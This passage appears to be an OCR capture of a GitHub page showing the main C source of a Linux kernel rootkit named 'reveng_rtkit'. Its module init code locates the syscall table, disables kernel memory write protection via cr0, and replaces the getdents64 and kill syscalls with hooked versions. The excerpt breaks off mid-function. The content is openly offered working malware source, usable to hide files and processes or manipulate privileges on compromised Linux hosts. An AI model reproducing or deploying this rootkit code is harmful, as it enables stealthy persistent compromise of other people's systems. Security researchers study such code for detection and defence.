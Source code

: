 1. This is the whole rootkit.c file.

```c
// Test_rtkit.c

#include <linux/init.h>		/* Needed for the macros */
#include <linux/module.h>	/* Needed by all modules */
#include <linux/kernel.h>	/* Needed for printing log level messages */
#include <linux/list.h>		/* macros related to linked list are defined here. Eg: list_add(), list_del(), list_entry(), etc */
#include <linux/cred.h>		/* To change value of this fields we have to invoke prepare_creds(). 
                            * To set those modified values we have to invoke commit_creds(). 
                            * uid, gid and other similar "things" are stored in cred structure which is element of cred structure. */
#include "Test_hook_getdents64.h"


/* Function Prototypes */

static int      __init rootkit_init(void);
static void     __exit rootkit_exit(void);


// =================== Entry Function ====================

static int __init rootkit_init(void)
{
	printk(KERN_INFO "=================================================\n");
	printk(KERN_INFO "[+] reveng_rtkit: Created by @reveng007(Soumyanil)");
	printk(KERN_INFO "[+] reveng_rtkit: Loaded \n");

	__sys_call_table = get_syscall_table();
	if (!__sys_call_table)
		return -1;
	
	printk(KERN_INFO "[+] reveng_rtkit: Address of sys_call_table in kernel memory: 0x%px \n", __sys_call_table);


	/* Executes the instruction to read cr0 register (via inline assembly) and returns the result in a general-purpose register.
	 *
	 * link: https://elixir.bootlin.com/linux/v5.11/source/arch/x86/include/asm/paravirt_types.h#L111
	 *
	 * unsigned long (*read_cr0)(void);
	 */
	cr0 = read_cr0();

	// Storing original syscall
	orig_getdents64 = (tt_syscall)__sys_call_table[__NR_getdents64];
	orig_kill = (tt_syscall)__sys_call_table[__NR_kill];

	//printk(KERN_EMERG "The value of cr0: %lx\n",cr0);

	unprotect_memory();

	// Editing syscall table targeting "getdents64" and "kill" syscall with our created "hacked_getdents64" and "hacked_kill".
	__sys_call_table[__NR_getdents64] = (unsigned long) hacked_getdents64;
	__sys_call_table[__NR_kill] = (unsigned long) hacked_kill;

	//printk(KERN_EMERG "The value of cr0: %lx\n",cr0);

```